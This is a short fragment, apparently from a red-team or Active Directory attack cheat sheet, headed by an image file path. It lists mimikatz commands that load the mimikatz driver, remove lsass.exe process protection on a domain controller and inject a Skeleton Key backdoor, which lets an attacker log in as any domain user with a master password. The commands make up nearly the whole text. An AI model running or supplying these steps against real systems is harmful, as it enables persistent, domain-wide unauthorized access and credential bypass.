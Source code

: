 • In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:

```powershell
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

